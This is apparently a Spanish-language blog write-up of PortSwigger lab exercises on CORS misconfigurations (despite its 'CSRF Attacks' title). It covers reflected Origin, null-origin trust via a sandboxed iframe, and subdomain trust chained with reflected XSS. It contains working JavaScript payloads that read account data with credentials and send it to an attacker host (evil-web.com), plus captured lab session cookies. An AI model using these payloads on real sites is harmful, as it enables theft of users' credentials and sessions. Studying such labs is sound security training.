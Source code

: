 ```yaml
---
layout: post
title:  "CSRF Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/170120828-3edcc859-fc45-42c3-9fe7-a8cd8b20f682.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

- El uso compartido de recursos entre orígenes (CORS) es un mecanismo del navegador que permite el acceso controlado a recursos fuera de un dominio determinado.
- Amplía y añade flexibilidad a la política del mismo origen (SOP).
- Sin embargo, también ofrece la posibilidad de ataques entre dominios si la política CORS de un sitio web está mal configurada e implementada.

#### 1- CORS vuln con basico Origin reflejado
Podemos ver que el resultado de los datos se ven en la response. 

![CORSBASIC1](https://user-images.githubusercontent.com/47476901/170120840-b2ebc878-083c-4696-880d-4dd1a7c49f27.png)

Y el origin personalizado se refleja, lo cual nos indica que es vulnerable.
`Origin: http://web-prueba.com` ✔

![CORSBASIC2](https://user-images.githubusercontent.com/47476901/170120866-d6794c07-b894-479c-a4ac-05e7fd3c8f68.png)

Nos creamos un html personalizado para que esos datos se manden a nuestra pagina maliciosa para robar estos datos
![CORSBASIC-webmaliciosa](https://user-images.githubusercontent.com/47476901/170120906-757459e0-d8c5-46dc-afab-980136ef0bbe.png)


- HTML web maliciosa: 
```html
<html>
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://web.com/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {
	location='https://evil-web.com/log?key='+this.responseText;
};
</script>
</html>
```

Cuando el usuario visita nuestra pagina eviará los datos de ese endpoint a nuestra pagina donde se podran ver en los logs de nuestro servidor.

![CORSBASIC-LOGS](https://user-images.githubusercontent.com/47476901/170120986-ebb2f1d4-eb13-4f16-96fc-93a70433d67c.png)

---

#### 2- Origin solo permite origines nulos
Cuando modificamos el Origin no se refleja en la request
`Origin: http://web-prueba.com` ❌

![CORS-NULL-noserefleja](https://user-images.githubusercontent.com/47476901/170121022-62f66786-5ea7-4c02-8714-1c60d2382fcd.png)

Podemos ver que la web solo permitre Origins que sean nulos.
`Origin: null` ✔

![CORS-NULL-nullserefleja](https://user-images.githubusercontent.com/47476901/170121051-0e387fd5-1f4d-4ca7-b1bc-d88df606e7a1.png)

- Un atacante puede usar varios trucos para generar una solicitud de origen cruzado que contenga el valor `NULL` en el encabezado Origin.
- Esto satisfará la lista blanca, lo que conducirá al acceso entre dominios. Por ejemplo, esto se puede hacer mediante una `iframe` solicitud de origen cruzado en espacio aislado del formulario:

- HTML web maliciosa: 
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener; 
        req.open('get','https://web.com/accountDetails',true); 
        req.withCredentials = true;
        req.send();
		function reqListener() {
		location='https://evil-web.com/log?key='+this.responseText; }; 
    </script>
">
</iframe>
```
Con el `location` estamos indicando que esa respuesta que tiene los datos sensibles se manden como parametros a la pagina del atacante.
Esta es la request que hace el usuario victima por detras al visitar nuestra pagina

1- Visita la pagina atacante y ejecuta el script de javascript que hemos creado

![CORS-NULL-1](https://user-images.githubusercontent.com/47476901/170121075-ea6d19f6-6e26-4833-abf3-19c747a51f71.png)

2- Y cuando lee el location manda los datos

![CORS-NULL-2](https://user-images.githubusercontent.com/47476901/170121090-d15e2f6c-c45e-4e17-888e-f4b58605e167.png)

3- Cuando el usuario visita nuestra pagina eviará los datos de ese endpoint a nuestra pagina donde se podran ver en los logs de nuestro servidor.
Logs servidor: 

![CORS-NULL-3](https://user-images.githubusercontent.com/47476901/170121110-e824ffa6-1f99-4b62-9471-5a9ff468ccb0.png)


Url Decode: 
Tenemos:
Usuario, email, apikey y la sesion (La cookie que esta vinculada al usuario)

![CORS-NULL-urldecode](https://user-images.githubusercontent.com/47476901/170121138-e73bbef4-d56f-403f-b113-d11413a54beb.png)


**Exfiltrando datos administrador**
Ahora imagina que el administrador visita nuestra pagina, nos llega sus datos y en esos datos se incluye la cookie de session que podemos usar para entrar a su sesion
Logs servidor: 

![CORS-NULL-admin1](https://user-images.githubusercontent.com/47476901/170121188-142730ff-0f1b-4638-ae4d-618fc2ee910c.png)

Url Decode: 

![CORS-NULL-admin2](https://user-images.githubusercontent.com/47476901/170121205-6b456e81-74be-4d67-8422-cde3949111f7.png)

Ya tenemos la sesion del administrador
`Admin Session: F1BVIVSoQvTaB8i6HJ25gxtJdvJKweuz`

![CORS-NULL-admin3](https://user-images.githubusercontent.com/47476901/170121229-5dc14a73-74f3-4d81-bebd-816a5bf6c253.png)

#### 3- CORS con protocolos inseguros confiables

La web solo confia en dominios que pertenecen a ella, es decir sus subdominios.

Hacemos una prueba con nuestra web en el origin y no obtenemos reflejo.
`Origin: http://web-prueba.com` ❌

![CORS-SUBDOMAIN1](https://user-images.githubusercontent.com/47476901/170121254-7e6c7df8-4e4e-4e49-8738-b2d4873d2087.png)


Probamos con un subdominio y se refleja.
`Origin: http://subdomain.web.com` ✔

![CORS-SUBDOMAIN2](https://user-images.githubusercontent.com/47476901/170121281-a1b04963-fea1-4c9a-a434-7257df905382.png)

Encontramos un subdominio

![CORS-SUBDOMAIN3](https://user-images.githubusercontent.com/47476901/170121326-6bf2936e-ecee-4043-b83d-64473fe62467.png)


Este subdomino es vulnerable a XSS reflected en los parametros productId, esto nos servirá para ejecutar nuestro script ya que la pagina solo confia en sus subdominios.

**XSS en subdominio**

![CORS-SUBDOMAIN-XSS](https://user-images.githubusercontent.com/47476901/170121381-2735c975-9520-407e-a8b7-626497e0f292.png)


Aprovechamos esta vulnerabilidad para explotar la confianza entre dominios y asi poder exfiltrar los datos a nuestro servidor.

**Nuestra web maliciosa**
- HTML web maliciosa: 
```html
<html>
<script>
    document.location="http://subdomain.web.com/?search=<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://web.com/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://evil-web.com/log?key='%2b%this.responseText; };%3c/script>"
</script>
</html>
```

Cuando el usuario victima visite nuestra pagina ejecutará la XSS  del subdomino que contiene el script que realiza una peticion a la pagina vulnerable a cors por confianza de dominios y la response de esa peticion nos la envia a los logs de nuestro servidor.

1-  El usuario visita nuestra pagina maliciosa que contiene el script principal

![CORS-SUBDOMAIN-FINAL1](https://user-images.githubusercontent.com/47476901/170121414-3e0c1072-7b3c-41a8-9ebf-53cd154e076b.png)

2- Se ejecuta el javascript y manda al usuario al subdomino y ejecuta la xss 

![CORS-SUBDOMAIN-FINAL2](https://user-images.githubusercontent.com/47476901/170121446-25a24085-5afc-4a5f-80a7-5931856223f5.png)

3- Como el script procede de un domino de confianza configurado por el cors de la pagina final, se ejecuta en la pagina vulnerable a CORS.

![CORS-SUBDOMAIN-FINAL3](https://user-images.githubusercontent.com/47476901/170121465-a3fdcf2b-361e-47e8-89e3-6e40540281e6.png)

4- Como era malicioso, por detrás se ha mandado la response al servidor del atacante con todos los datos sensibles.
Finalmente se envian los datos a la pagina maliciosa como podemos ver con esta request interceptada

![CORS-SUBDOMAIN-FINAL4](https://user-images.githubusercontent.com/47476901/170121479-4fc4ed61-f871-47ef-b710-f461414e9d7c.png)

5- Esos datos se guardan en los logs de nuestra pagina como atacante.
En el que en este caso se envian username, email, apikey y cookie de sesion 

![CORS-SUBDOMAIN-FINAL5](https://user-images.githubusercontent.com/47476901/170121493-bb8947d1-376c-4577-a46b-6cdd3dd2f74b.png)

6- En el caso mas extremo como hemos explicado antes, si un administrador visita nuestra pagina tendremos su cookie de sesion.

![CORS-SUBDOMAIN-FINAL6](https://user-images.githubusercontent.com/47476901/170121516-5ed34f0c-f1c5-4a33-96d0-434b95629d6a.png)

7- Usando la cookie de sesion del administrador 
`Admin Session: clljARot4Lc4KkFHfIylENGZmZbzYwD7`

![CORS-SUBDOMAIN-FINAL7](https://user-images.githubusercontent.com/47476901/170121537-f506411d-2b99-4407-b9c2-75553ea3666c.png)

### Conclusión
- Esto depende siempre de la response al endpoint que apuntemos.
- En este ejemplo si se mandaba la cookie de sesion del usuario o el email, pero este es un caso muy extremo porque las webs son muy diferentes entre sí, com o dice el punto de arriba, todo depende de la response del endpoint. 
- Entender que relaciones de confianzas se manejan en las politicas CORS ya que puede ser que exista una vulnerabilidad CORS pero no tiene porque ser ofensiva. Como todo, depede del contexto.

Source Labs:
- [Portswigger Labs](https://portswigger.net/web-security)

